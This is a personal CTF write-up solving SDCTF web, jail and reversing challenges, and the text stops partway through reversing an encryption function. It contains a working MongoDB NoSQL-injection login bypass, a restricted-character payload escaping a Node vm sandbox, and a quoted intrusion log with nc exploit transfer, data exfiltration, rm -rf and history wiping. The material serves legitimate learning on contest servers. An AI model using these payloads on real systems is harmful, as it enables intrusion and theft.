

A friend invited me and other friends to her team for a CTF.
I decided to pounce at the web challenges
because I'm a web developer,
and it's all I can do.

I'm making this write-up because a write-up I found on Google helped me with one of the challenges, but for the other challenges, Google wasn't turning up any good results. Hopefully there are enough keywords in here for this to show up on Google when desired.

I'm not sure if the link will work, but here's a leaderboard of the [UCSD CTF teams](https://ctfbot.irs.sh/public/dashboards/ktldYdOdhIfT0Vcvo2Jd5xUREJ8BGX35o9m6WLaF?org_slug=default) at the event; we're bugs@UCSD (originally "sussy bugs" before we had to include "UCSD" in our name).


This isn't my first CTF, but I usually don't do CTFs. I do scrape websites often, though, so I'm fairly comfortable inspecting minified JavaScript and network logs. I also like JavaScript quirks.

## Contents

- [Ishihara test++](#a-svgcss-based-challenge), a flag visually revealed by highlighting certain dots
- [Hu*Mongo*us Mistake](#mongodb-admin-ctf), using no-SQL (specifically MongoDB) injection using Express's lenient URL parameter parsing
- [Lots of Logs](#logs-ctf), finding an odd entry out
- [JaWT that down!](#jawtjwt-ctf), dealing with a quickly expiring token
- [SymCalc.js](#ctf-node-calculator-escape-vm-codegeneration-false), remote JavaScript execution with a limit character set
- [Internprise Encryption](#inverse-encrypting), reversing an encryption algorithm
- [Oracle](#more-inverse-encrypting), also reversing an encryption algorithm
- Failures
  - [CURL Up and Read](#curl-get-environment-variable-ctf), getting an environment variable from a file using cURL's file:// support
  - [Gullible by Dovesign](#ctf-upload-file), SQL injection from a JPEG EXIF tag

There were five people in total on my team, but I have no idea what the others did, so I won't mention their challenges here.

## A SVG/CSS-based challenge

The first challenge I did was called **ishihara-test**:

> ### Ishihara test++
>
> _MISC - Easy_
>
> I don't think the person who made this knew what they were doing.
> Aren’t you supposed to see some kind of number or something in the middle?
>
> **flag.svg**: [Click Here to Download](https://cdn.discordapp.com/attachments/808487148332122144/969683096096100392/flag.svg)
>
> _By Infernis_

The given SVG file (which I opened in my browser) was just a bunch of blue dots of varying sizes,
fairly evenly but not orderly scattered throughout the canvas.


Viewing the source (ctrl + U), it gave

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<svg width="1920" height="1080" viewBox="0 0 1920 1080" xmlns="http://www.w3.org/2000/svg" version="1.1">
<style>.c1{fill:#89a1d1;}.c2{fill:#89a1d2;}.c3{fill:#89a1d3;}.c4{fill:#89a1d4;}.c5{fill:#89a1d5;}.c6{fill:#89a1d6;}</style>
<circle cx="1403.7309924917913" cy="656.4300466535069" r="2.1780044815555906" class="c5" />
<circle cx="1706.3779259092448" cy="606.6103722848989" r="4.8300364856314815" class="c4" />
<circle cx="343.99898734356174" cy="920.6559407124367" r="3.519456560536894" class="c6" />
<circle cx="450.4499897108796" cy="36.312128513143094" r="4.75976605176772" class="c5" />
```

followed by all the circles in the SVG.

I edited the `<style>` tag in inspect element, changing one class's `fill` colour to a different colour at a time. Some of the classes seemed to form a message, while others are just random. Here's flag.svg, where each class has a different colour.


Then, back to all of them blue, I incrementally set the classes to black if they contributed to showing the message, which eventually got me this:



This challenge is pretty funny because its solution code is in CSS:

```css
.c1 {
  fill: black;
}
.c2 {
  fill: #89a1d2;
}
.c3 {
  fill: black;
}
.c4 {
  fill: #89a1d4;
}
.c5 {
  fill: #89a1d5;
}
.c6 {
  fill: black;
}
```

I was the first to get this flag!

Apparently, non-CSS developers used Python to filter out lines in the SVG file to create a new image that hides/shows the classes. A bit overkill, in my opinion, but I guess it's worth avoiding CSS.

## mongodb admin ctf

After the Ishihara test, I decided to try tackling all the web challenges because I'm most familiar with web things. However, they weren't very trivial, so I ended up investigating all of them in parallel, switching to a different challenge when I got stuck for long enough. This challenge was the next one I solved.

> ### Hu*Mongo*us Mistake
>
> _WEB - Medium_
>
> Come purchase some shells! People are saying our payment server is acting a bit finnicky lately, but I don’t know what they’re talking about. It's not like you need money to buy shells!
>
> **Website**: <https://shell.sdc.tf/>
>
> **Hint**: The 2FA is homebrewed and may have "unintended features"
>
> _By Infernis_

The website is a take on "She sells seashells by the seashore."


_The flag-shaped shell is treated as a special shell in the page code, and redirects to `/buyflagshell?shell=flag-shaped-shell` rather than `/buyshell`. The way the shell is warped kind of makes me uncomfortable for some reason._

It made me create an account, supplying my Discord username, and the CTF server's bot DM'd me with a "two-factor authentication" code.

When I signed in, I couldn't buy anything because I didn't have enough currency. When signed in, the hamburger menu has an "Add Funds" page that reads

> 500 Internal Server Error
>
> We're sorry, the payment server cannot be reached! Cannot add funds to account at this time.

In the source code, there's a hidden comment (that's also viewable in the resulting DOM in inspect element) that seems to say that I can do something special with an admin account.

```js
render() {
  return t.createElement(t.Fragment, null, t.createElement(l.default, null), t.createElement(i.default, {
    links: i.LINKS
  }), t.createElement(a.default, {
    title: "500 Internal Server Error",
    className: "server-error"
  }, t.createElement("div", {
    className: "no-pay",
    dangerouslySetInnerHTML: {
      __html: "\n\t\t\t\t\t\x3c!-- TODO: Debug on admin account --\x3e\n\t\t\t\t\tWe're sorry, the payment server cannot be reached! Cannot add funds to account at this time."
    }
  })))
}
```

The `dangerouslySetInnerHTML` looked pretty sus, but it's pretty unlikely that the JavaScript is rendered server side, so looking back, it's probably just a hack to insert comments into the HTML for non-React people who can't read minified JS.

However, when I tried to create an account with username `admin`, it said, on an unstyled page,

> A user with name admin already exists!

At this point I got stuck, until I eventually Googled "mongo admin ctf," which gave me this [happy blog post detailing a similar challenge](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/).

> Request: `login.php?user[$gt]=&password[$gt]=`

Ah, so they probably were taking advantage of PHP's query parameter parsing to create a MongoDB query that matches for any user and password. According to the HTTP headers from this challenge's server, the server runs on Express, which [does support `[$gt]`-like shenanigans](https://www.npmjs.com/package/qs).

Logging in with `username=admin&password[$gt]=` in the request body gave me

> Malformed string. Invalid length!

I assumed the server was just checking `req.body.password.length`, so I just added a `length` property to `password`:

```js
await fetch('/login', {
  headers: {
    'content-type': 'application/x-www-form-urlencoded'
  },
  body: 'username=admin&password[$gt]=&password[length]=1',
  method: 'POST'
}).then(r => r.text())
```

which gave me the two-factor authentication page. Cool!

The next part stumped me, though, because I didn't know how to get the 2FA code, which apparently was being spammed to the Discord account of creator of the challenge. It was 3 am, and I was stuck again, so I went to bed.

The next day, I forgot what my intention was or why I tried this (I was playing around with the 2FA codes), but after logging into `admin`, I opened incognito mode and logged into my own account, which sent me a 2FA code. I then used that to sign into `admin`, and it accepted it!

```js
await fetch('/2fa', {
  headers: {
    'content-type': 'application/x-www-form-urlencoded'
  },
  body: 'code=D84B5C',
  method: 'POST'
}).then(r => r.text())
```

_It returned the HTML of the home page, which indicated success. Huzzah!_

The add funds page still soft-500'd, but when I tried buying the flag-shaped shell, it gave me the CTF flag directly. That was nice of them.


Of the web challenges, this challenge had the fewest solves (7 solvers). I don't know how I solved this but struggled with the others; I think I was just lucky in discovering the global 2FA codes, which seems to be what made most people stuck. The other harder challenges relied on knowledge that I didn't have (e.g. `/proc` or SQL injections), which might be why more experienced CTF teams were able to get them but not this.

For future CTFs, this challenge taught me to try signing in in incognito mode to see if doing things in parallel screws things up.

## logs ctf

One of the "easy" web challenges stumped me because it seemed to just be a static site, so there wasn't much to fiddle with.

> ### Lots of Logs
>
> _WEB - Easy_
>
> As a professional logger, I made an extensive logger that logs all of the logs I log to the blog I blog so that no log goes unlogged. I post some logs to the log catalog on my log blog.
>
> **Website**: <https://logs.sdc.tf/>
>
> _Use of nondisruptive automation tools is allowed for this challenge_
>
> _By Infernis_

Doing some manual binary searching, the date range for the logs seemed to go from 2016-10-29 to [2022-04-20](https://www.youtube.com/watch?v=Rhey4tEheHo). I wasn't really sure what to try because the logs seemed to just be logs; I couldn't get access to the `./logger` executable or anything.

Here's a sample log: <https://logs.sdc.tf/logs/2022/4/20/Wed.log>

```
Welcome to LoggerOS 11.02.3 (GNU/Linux 4.7.8-23-generic)

john@logger:~# ./logger

Wed 04/20 11:45:36 START : ************************** STARTING LOGGING **************************
Wed 04/20 11:45:36 LOG   : 0 logs logged!
Wed 04/20 11:46:17 LOG   : 13 logs logged!
Wed 04/20 11:47:14 LOG   : 11 logs logged!
Wed 04/20 11:48:13 PROC  : Processing 24 logs!
Wed 04/20 11:48:56 SELL  : Sold 24 logs for $116.00 each!
[...]
Wed 04/20 05:20:57 LOG   : 6 logs logged!
Wed 04/20 05:21:40 SELL  : Sold 11 logs for $123.00 each!
Wed 04/20 05:21:40 PROF  : Profitted $1353.00! ($242999.00 total)
Wed 04/20 05:22:31 STOP  : ************************** STOPPING LOGGING **************************
Wed 04/20 05:22:31 FIN   : Sold 2172 logs for a total of $242999 profit!
```

Its contents didn't seem very important to me, and all of the logs seemed to look like this, with different numbers but the same version numbers.

I was stuck for a while on this apparently "easy" web challenge. Eventually, I decided to just write a validator for the logs, making sure no log and dollar went untracked.

```js
get = date =>
  fetch(
    `/logs/${date.getUTCFullYear()}/${
      date.getUTCMonth() + 1
    }/${date.getUTCDate()}/${
      ['Sun', 'Mon', 'Tue', 'Wed', 'Thu', 'Fri', 'Sat'][date.getUTCDay()]
    }.log`
  ).then(r => r.text())

check = log => {
  log = log.split('\n')
  if (
    log.shift() !== 'Welcome to LoggerOS 11.02.3 (GNU/Linux 4.7.8-23-generic)'
  )
    throw new Error()
  if (log.shift() !== '') throw new Error()
  if (log.shift() !== 'john@logger:~# ./logger') throw new Error()
  if (log.shift() !== '') throw new Error()
  if (
    !log
      .shift()
      .match(
        /^\w{3} \d\d\/\d\d \d\d:\d\d:\d\d START : \*{26} STARTING LOGGING \*{26}$/
      )
  )
    throw new Error()
  //if (log.pop() !== '') throw new Error()

  let logs = 0,
    processed = 0,
    money = 0,
    profit = null,
    logsSold = 0,
    stop = false
  for (const line of log) {
    const [, type, message] = line.match(
      /^\w{3} \d\d\/\d\d \d\d:\d\d:\d\d (\w+) *: (.+)$/
    )
    if (stop) {
      if (type !== 'FIN') throw new Error()

      const [, sold, profit] = message.match(
        /^Sold (\d+) logs for a total of \$(\d+) profit!$/
      )
      if (+sold !== logsSold) throw new Error()
      if (+profit !== money) throw new Error()
      continue
    }
    if (profit !== null) {
      if (type !== 'PROF') throw new Error()
      money += profit
      const [, profitted, total] = message.match(
        /^Profitted \$(\d+\.\d+)! \(\$(\d+\.\d+) total\)$/
      )
      if (+profitted !== profit) throw new Error()
      if (+total !== money) throw new Error()
      profit = null
      continue
    }
    if (type === 'LOG') {
      logs += +message.match(/^(\d+) logs logged!$/)[1]
    } else if (type === 'PROC') {
      const [, process, left = 0] = message.match(
        /^Processing (\d+) logs! (?:\((\d+) logs still need processing\))?$/
      )
      logs -= +process
      processed += +process
      if (+left !== logs) throw new Error()
    } else if (type === 'SELL') {
      const [, sold, price, unsold = 0] = message.match(
        /^Sold (\d+) logs for \$(\d+\.\d+) each! (?:There are still (\d+) unsold logs!)?$/
      )
      processed -= +sold
      profit = +sold * +price
      logsSold += +sold
      if (+unsold !== processed) throw new Error()
    } else if (type === 'STOP') {
      stop = true
    } else {
      throw type
    }
  }
}

//check(await get(new Date('2022-04-20')))

let d = new Date('2022-04-20')
while (d >= new Date('2016-10-29')) {
  const str = await get(d)
  try {
    check(str)
  } catch (err) {
    console.log(d.toString(), err)
  }
  d.setDate(d.getDate() - 1)
}
```

Surprisingly, most of the dates passed the checker. I was eating dinner at Burger King, and when I came back to my laptop sitting precariously on my backpack on the ground, I saw that it had ended on an error. It encountered a `^C` on 2018-06-13's log, which didn't match the format for the log.

The `^C` was quite curious, so I opened the log up to take a look.

```
[...]
Wed 06/13 12:18:35 LOG   : 11 logs logged!
Wed 06/13 12:19:16 LOG   : 5 logs logged!
Wed 06/13 12:20:13 LOG   : ^C

john@logger:~# nc -l 1337 > exploit
john@logger:~# chmod +x exploit
john@logger:~# ./exploit
# whoami
root
# ls
exploit  logs  site
# ls logs
2016  2017  2018
# tar -cf data.tar.gz ~/logs
tar: Removing leading `/' from member names
tar: /home/john/data.tar.gz: file is the archive; not dumped
# nc -l 1337 < data.tar.gz
# rm -rf /home/john/logs/2018/6/10 /home/john/logs/2018/6/11 /home/john/logs/2018/6/12
# rm data.tar.gz
# mkdir /lib/network
# nc -l 1337 > /lib/network/daemon
# chmod +x /lib/network/daemon
# /lib/network/daemon
Success... running on port 1338
# nc logger.sdc.tf 1338
Pass: 82d192aa35a6298997e9456cb3a0b5dd92e4d6411c56af2169bed167b53f38d
ls /home/john
exploit  logs  site
^C
# rm exploit
# echo "" > .bash_history
# echo "" > ~/.bash_history
# exit
john@logger:~# ./logger

Wed 06/13 12:55:03 START : ************************** STARTING LOGGING **************************
Wed 06/13 12:55:03 LOG   : 0 logs logged!
Wed 06/13 12:55:48 LOG   : 6 logs logged!
[...]
```

It seems on that Wednesday, John Logger censored the logs from June 10 to 12, among other sus things. I initially thought that I'd have to find `./exploit` since it gave me the full path of the website files, but apparently it was a lot simpler than that. I just had to run `nc logger.sdc.tf 1338` then input the password in the logs, and it gave me the flag directly.

```
$ nc logger.sdc.tf 1338
Pass: 82d192aa35a6298997e9456cb3a0b5dd92e4d6411c56af2169bed167b53f38d
sdctf{b3tr4y3d_by_th3_l0gs_8a4dfd}
```

Interesting!

This challenge taught me that I shouldn't just assume everything is the same, and I should try validating each page especially if there's a note permitting automation tools.

## jawt/jwt ctf

> ### JaWT that down!
>
> _WEB - Easy_
>
> The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.
>
> **Website**: <https://jawt.sdc.tf/>
> ⠀
> _Use of nondisruptive automation tools is allowed for this challenge_
>
> _By Infernis_

_Infernis made a lot of the challenges!_

The goat-themed blog website had a login page. In the code, I found

```js
render() {
  return r.createElement("form", {
    action: "/login",
    method: "POST",
    className: "login-form"
  }, r.createElement("span", {
    className: "heading"
  }, "Admin Sign In"), r.createElement("label", {
    htmlFor: "username",
    dangerouslySetInnerHTML: {
      __html: "\x3c!-- REMOVE ME IN PUBLISHED SITE! Username: AzureDiamond --\x3eUsername"
    }
  }), r.createElement("input", {
    type: "text",
    id: "username",
    name: "username"
  }), r.createElement("label", {
    htmlFor: "password",
    dangerouslySetInnerHTML: {
      __html: "\x3c!-- REMOVE ME IN PUBLISHED SITE! Password: hunter2 --\x3ePassword"
    }
  }), r.createElement("input", {
    type: "password",
    id: "password",
    name: "password"
  }), r.createElement("button", {
    type: "submit"
  }, "Sign In"))
}
```

_Ah yes, the [hunter2 meme](https://www.reddit.com/r/ProgrammerHumor/comments/904mko/password_input_with_extra_security/)._

When I signed in with these credentials, the home page had a new link in the navbar: "Flag," which took me to `/s` that contained a single character.

> d

I saw "s" and "d" and assumed that it was the start of the flag, so I went to `/d`, but that also gave `d`. Weird. In fact, all of the single-character pages seemed to just give `d`.

It was kind of hard to test this, though, because within moments, the pages would give

> Invalid Token: Access Denied

The name of the challenge suggests that the challenge involves JaWTs, whatever they were, so I looked up "JaWT ctf." Skimming through [this blog post](https://infosecwriteups.com/jawt-scratchpad-picoctf-93766d81fd8e), it recommended [jwt.io](https://jwt.io/). I pasted in my token cookie, which I got from the DevTools Application tab, but it gave me basically the same information as I could've gotten by doing `JSON.parse(atob(part))` on the first two parts. It did show, though, that the tokens the site gives expire two seconds after being issued.

I fiddled around with it and tried changing my token. I used a [secret cracker](https://lmammino.github.io/jwt-cracker/) I found on npm, but it took too long. Since I didn't have the secret key used for the JWT signature, I didn't really get anywhere since the website wouldn't accept any tokens I created. I got stuck.

I later came back to it and tried checking all of the single-character pages. Maybe one of the letters wouldn't give `d`. However, for some reason, all the letters were 404'ing.

As it turned out, in the time since I discovered that all the single-character paths were giving `d`, the creator of the challenge had changed the challenge, announcing

> jawt-that-down has been redeployed to be a tad more clear in a certain area

Only `/s` was giving `d` now. `/sd` still 404'd, and `/s?d` still gave `d`. Eventually, I tried `/s/d`, which gave `c`. Exciting! It's the next character in the sequence of the beginning of the flags for the CTF: `sdctf{`.

So, I made a script to keep getting the next character. I had to run the script a few times to log in again because the token expired so quickly, but that was fine.

```js
await fetch('/login', {
  headers: {
    'content-type': 'application/x-www-form-urlencoded'
  },
  body: 'username=AzureDiamond&password=hunter2',
  method: 'POST'
})
let s = 'sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_'
while (true) {
  s += await fetch('/' + [...s].join('/')).then(r => r.text())
  console.log(s)
}
```

_\*Fewer._

Eventually, I got the full flag, and after the closing `}`, it gave `End of message`.


It's a bit interesting that this challenge didn't really require dealing with the JWT. Good for me, I guess!

## ctf node calculator escape vm codeGeneration false

One of my teammates was looking at a non-web challenge (it was in the jail category) that involved JavaScript while we were at Burger King last night. I figured that he would be busy enough that he wouldn't work on the challenge that much, so I could just steal his claim on the challenge from him. All JavaScript belongs to me!

> ### SymCalc.js
>
> _JAIL - Hard_
>
> We ported our state-of-the-art calculator to Node.js because we were tired of Python's security issues...
>
> **Connect via**: `nc calcjs.sdc.tf 1337`
>
> **Source code (yes its less than 40 lines)**: [server.mjs](https://cdn.discordapp.com/attachments/808487148332122144/971165168761471026/server.mjs)
>
> _By KNOXDEV_

Here's `server.mjs`:

<!-- prettier-ignore -->
```js
import readline from 'readline';
import vm from 'vm';

const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
});
const question = (query) => new Promise(resolve => rl.question(query, resolve));

const context = vm.createContext(
    // we make sure to pass in the NOTHING as the context (no library functions or process.env.FLAG)
    {},
    // and we make sure to disallow code generation of any kind
    { codeGeneration: { strings: false, wasm: false } }
);

// infinite REPL
console.log('Welcome to SymCalc.js, for all your math needs');
while(1) {
    const code = await question('> ');

    // don't allow characters that a calculator doesn't need!
    if (/[^\w\d\s+\-/*=<>\[\]()]/.test(code)) {
        console.log('Please do not use any illegal characters.');
        continue;
    }

    try {
        const result = vm.runInContext(code, context, { timeout: 3000 });
        console.log(result + '');
    } catch (e) {
        console.log(e + '');
    }
}

rl.close();
```

Based on a quick glance, it seems to be a calculator that evals the given expression as long as it only contains alphanumeric characters, spaces, or `+-/*=<>[]()`. That's a lot larger than the six characters for [JSFuck](http://www.jsfuck.com/). The flag was in `process.env.FLAG`, so I just put in `return process.env.FLAG` to JSFuck's generator and pasted it into the calculator.

> Please do not use any illegal characters.

Ah, bangs (`!`) aren't in the allowlist. I noticed that numbers and `=` were allowed, so I decided to just write the JSFuck myself, using [JSFuck's code](https://github.com/aemkei/jsfuck/blob/master/jsfuck.js) for reference. This wasn't too bad for me; I have tried to re-derive JSFuck's characters before, so I was pretty comfortable with this.

Letters and `=` were in the allowlist, but quotes weren't, so I was able to store strings in variables for my convenience and readability. I eventually came up with

<!-- prettier-ignore -->
```js
(Func = [][flat=(f=(fals=(0==1)+[])[0]) + (l=fals[2]) + (a=fals[1]) +(t=(tru=(0==0)+[])[0])][constructor = (c=(native_code=[][flat]+[])[26]) + (o=native_code[27]) + (n=(undef=[][0]+[])[1]) + (s=fals[3]) + t + (r=tru[1]) + (u=undef[0]) + c + t + o + r][constructor])((fromCharCode = (Strin = ([]+[])[constructor])[f + r + o + (m = (0[constructor]+[])[11]) + (C=escape(([]+[])[(i = undef[5])+t+a+l+i+c+s]())[2]) + (h = 17[toString = t+o+(Stri=Strin[n+a+(m = (0[constructor]+[])[11])+(e = undef[3])])](36)) + a + r + C + o + (d = undef[2]) + e])(114) + fromCharCode(101) + fromCharCode(116) + fromCharCode(117) + fromCharCode(114) + fromCharCode(110) + fromCharCode(32) + fromCharCode(112) + fromCharCode(114) + fromCharCode(111) + fromCharCode(99) + fromCharCode(101) + fromCharCode(115) + fromCharCode(115) + fromCharCode(46) + fromCharCode(101) + fromCharCode(110) + fromCharCode(118) + fromCharCode(46) + fromCharCode(70) + fromCharCode(76) + fromCharCode(65) + fromCharCode(71))()
```

This is essentially equivalent to

```js
;[].flat.constructor.constructor('return process.env.FLAG')()
```

Unfortunately, despite using the `Function` instance from the parent environment, the VM still prevented me from using its constructor to evaluate the string as JS.

> EvalError: Code generation from strings disallowed for this context

Annoying!

I tried looking up articles ("node vm codeGeneration false ctf," "codeGeneration false node vm") who knew how to escape out of a VM with `codeGeneration` set to false, but no one seemed to really mention that option. Other CTFs that did use a Node VM didn't use the option. I guess other CTFs are easier and just leave code generation on.

So then, I tried running the VM code locally in Node.

<!-- prettier-ignore -->
```js
$ node
Welcome to Node.js v16.4.0.
Type ".help" for more information.
> vm = require('vm')
{
  Script: [class Script extends ContextifyScript],
  createContext: [Function: createContext],
  createScript: [Function: createScript],
  runInContext: [Function: runInContext],
  runInNewContext: [Function: runInNewContext],
  runInThisContext: [Function: runInThisContext],
  isContext: [Function: isContext],
  compileFunction: [Function: compileFunction],
  measureMemory: [Function: measureMemory]
}
> context = vm.createContext(
...     // we make sure to pass in the NOTHING as the context (no library functions or process.env.FLAG)
...     {},
...     // and we make sure to disallow code generation of any kind
...     { codeGeneration: { strings: false, wasm: false } }
... )
{}
> ev = code => vm.runInContext(code, context, { timeout: 3000 })
[Function: ev]
```

The VM was indeed displeased with `.constructor.constructor()`.

<!-- prettier-ignore -->
```js
> ev(`({}).constructor.constructor('')`)
evalmachine.<anonymous>:1
({}).constructor.constructor('')
                 ^

Uncaught EvalError: Code generation from strings disallowed for this context
    at Function (<anonymous>)
    at evalmachine.<anonymous>:1:18
    at Script.runInContext (node:vm:139:12)
    at Object.runInContext (node:vm:289:6)
    at ev (REPL10:1:17)
    at REPL23:1:1
    at Script.runInThisContext (node:vm:129:12)
    at REPLServer.defaultEval (node:repl:522:29)
    at bound (node:domain:416:15)
    at REPLServer.runBound [as eval] (node:domain:427:12)
```

However, I found that `this` was the empty context object, and doing `.constructor.constructor()` on it was acceptable.

<!-- prettier-ignore -->
```js
> ev(`this`)
{}
> ev(`this.constructor.constructor('')`)
[Function: anonymous]
```

Conveniently, identifiers are allowed in the calculator, so I entered the equivalent of `this.constructor.constructor('return process.env.FLAG')()` into the calculator, which gave me the flag. 🎉

<!-- prettier-ignore -->
```js
this[constructo = (c=(native_code=[][flat=(f=(fals=(0==1)+[])[0]) + (l=fals[2]) + (a=fals[1]) +(t=(tru=(0==0)+[])[0])]+[])[26]) + (o=native_code[27]) + (n=(undef=[][0]+[])[1]) + (s=fals[3]) + t + (r=tru[1]) + (u=undef[0]) + c + t + o + r][constructo]((fromCharCode = (Strin = ([]+[])[constructo])[f + r + o + (m = (0[constructo]+[])[11]) + (C=escape(([]+[])[(i = undef[5])+t+a+l+i+c+s]())[2]) + (h = 17[toString = t+o+(Stri=Strin[n+a+(m = (0[constructo]+[])[11])+(e = undef[3])])](36)) + a + r + C + o + (d = undef[2]) + e])(114) + fromCharCode(101) + fromCharCode(116) + fromCharCode(117) + fromCharCode(114) + fromCharCode(110) + fromCharCode(32) + fromCharCode(112) + fromCharCode(114) + fromCharCode(111) + fromCharCode(99) + fromCharCode(101) + fromCharCode(115) + fromCharCode(115) + fromCharCode(46) + fromCharCode(101) + fromCharCode(110) + fromCharCode(118) + fromCharCode(46) + fromCharCode(70) + fromCharCode(76) + fromCharCode(65) + fromCharCode(71))()
```


_If you want to learn how I came up with this, see the [Appendix](#appendix-how-i-created-my-payload-for-symcalcjs)._

After the CTF, I would find out that I had overcomplicated this; I could instead have used regex literals in lieu of string literals and used `with` statements to get properties. Whatever.

## Inverse encrypting

I was bored and browsed through the other non-web challenges when the CTF first started, and I found a challenge that involved JavaScript, so of course I had to do it.

> ### Internprise Encryption
>
> _REVENGE - Easy_
>
> Our new intern Dave encrypted all of our important company files with his homemade "military grade encryption scheme" to try and improve company security. The thing is... he didn’t make the “decryption” part and we didn’t make backups.
>
> **Attachments**: [files.zip](https://cdn.discordapp.com/attachments/808487148332122144/969709538393591808/files.zip)
>
> **Note**: If your flag has a `'` in it, remove before submitting. Discord doesn't like it.
>
> _By Infernis_

The ZIP file contained four files:

- `davecrypt.js`
- `flag.txt`
- `q2_report.txt`
- `shareholder_meeting_script.txt`

The text files were all encrypted in jarbly mess. Since they provided other text files, I assumed that maybe I had to use frequency analysis or something based on the other text files as examples.

`davecrypt.js` contains the encryption algorithm.

<!-- prettier-ignore -->
```js
/**
 * Dave's Awesome Verygood Encryption scheme (DAVEs)
 * I, the magnificent cryptographer Dave, have invented an encryption scheme
 * that I myself have proven impossible to crack.
 * If I can't crack it, no one can!
 */
function encrypt(s) {
	let encrypted = [];
	for (let i = 0; i < s.length; i++) {
		let x = (s[i].charCodeAt(0x0) + i * 0xf) % 0x80;
		x += i > 0x0 ? encrypted[i - 0x1].charCodeAt(0) % 128 : 0xd;
		x ^= 0x555;
		x = ((x ^ ~0x0) >>> 0x0) & 0xff;
		x -= (Math.random() * 0x5) & 0xb9 & 0x46;
		x = ~(x ^ (0x2cd + ((i ^ 0x44) % 0x2 === 0) ? 0x3 : 0x0));
		x = ((x >> 0x1f) + x) ^ (x >> 0x1f);
		x |= ((Date.now() % 0x3e8) / (0x4d2 - 0xea)) | (i % 0x1);
		encrypted.push(String.fromCharCode(x));
	}
	return encrypted.join("");
}
```

When I saw it, I assumed that I could probably find a way to reverse it. First, I rewrote the encrypt function, simplifying it (and I named it `simp` because it's funny).

1. ```js
   let x = (s[i].charCodeAt(0) + i * 15) % 128
   ```

   `% 128` isn't a huge concern because the characters are all presumably ASCII characters, so their code values should be less than 128.

   To invert this, I can subtract `i * 15` and then mod by 128 again.

   ```js
   const mod = (a, b) => ((a % b) + b) % b
   x -= i * 15
   x = mod(x, 128)
   ```

2. ```js
   x += i > 0 ? encrypted[i - 1].charCodeAt(0) % 128 : 13
   ```

   To invert it, I decrement instead of incrementing.

   ```js
   if (i > 0) {
     x -= s[i - 1].charCodeAt(0) % 128
   } else {
     x -= 13
   }
   ```

3. ```js
   x ^= 1365 // 0b10101010101
   ```

   The inverse operation of XOR seems to just be XOR it with the same number again (i.e. `(a ^ b) ^ b === a`). That's because XOR flips the other bit if the bit is 1 and leaves it alone if it's 0, and to undo a flip, I just need to flip it again.

   ```js
   x ^= 1365
   ```

4. ```js
   // I think (x ^ -1) is the same as ~x
   // I don't think & 255 changes anything because ascii (NVM this is wrong)
   x = ~x & 255
   ```

   `x ^ ~0x0` is the same as `x ^ -1`. `-1` as an i32 is just 32 ones, so XOR'ing it with `x` will flip all of its bits. The bitwise NOT operator `~` does the same thing.

   In JavaScript, `~` was useful because it turns 0 into -1, a truthy value, and -1 into 0, a falsy value, so you can use `~arr.indexOf(value)` to convert the index to a boolean value for whether `value` is in `arr`. `~x` can be thought of as equivalent to `-1 - x`.

   I tried removing `& 255` because I assumed that the ASCII values would be less than 255, but that changed the encrypted result, so I added it back.

   I wasn't really sure how to invert `& 255`, so I ignored it for now. To invert the bitwise NOT, I can just NOT it again.

   ```js
   // TODO
   x = ~x
   ```

5. ```js
   // x -= (Math.random() * 5) & 0;
   ```

   I assumed bitwise AND is associative, so `(a & b) & c` is the same as `a & (b & c)`, so I can simplify `0xb9 & 0x46` to 0. AND'ing a number with 0 makes all of its bits false (anything and false is false), so `(Math.random() * 5) & 0` is always zero, and the line does nothing. It shouldn't affect the result anyways since `encrypt` seems to be deterministic.

6. ```js
   // (i ^ 0b1000100) % 2 is equiv to i % 2
   // but that doesn't matter because (717 + (i % 2 === 0) ? 3 : 0) is always true
   x = ~(x ^ 3)
   ```

   The `0x2cd +` is part of the condition, so it's always truthy, so `0x2cd + ((i ^ 0x44) % 0x2 === 0) ? 0x3 : 0x0` always evaluates to 3.

   To invert this, I have to invert the `~` first then the `^ 3`.

   ```js
   x = ~x ^ 3
   ```

7. ```js
   console.log(x >> 31)
   // (x >> 31) gets the sign bit
   // case 0. (0 + x) ^ 0 == 0
   // case 1. ~(x - 1)
   // it seems x >> 31 is often -1, so I'll assume the latter case
   // x = ((x >> 31) + x) ^ (x >> 31);
   x = ~(x - 1)
   ```

   For 32-bit signed integers, which JavaScript bitwise operators use, the most significant bit is the sign bit, and shifting right by 31 bits basically discards all the other bits, leaving that one sign bit.

   Logging `x >> 31`, it seems it's always `-1`, so I just assumed it was always the case. (This makes sense because `x` was NOT'd---effectively negated---three times before this, and `x` is originally positive.)

   To invert this, I invert the `~` then add 1.

   ```js
   x = ~x + 1
   ```

8. ```js
   // x |= ((Date.now() % 1000) / 1000) | (i % 1); // noop
   ```

   Modding `Date.now()` by 1000 keeps it in the range [0, 1000). Dividing it by 1000 makes the interval [0, 1).

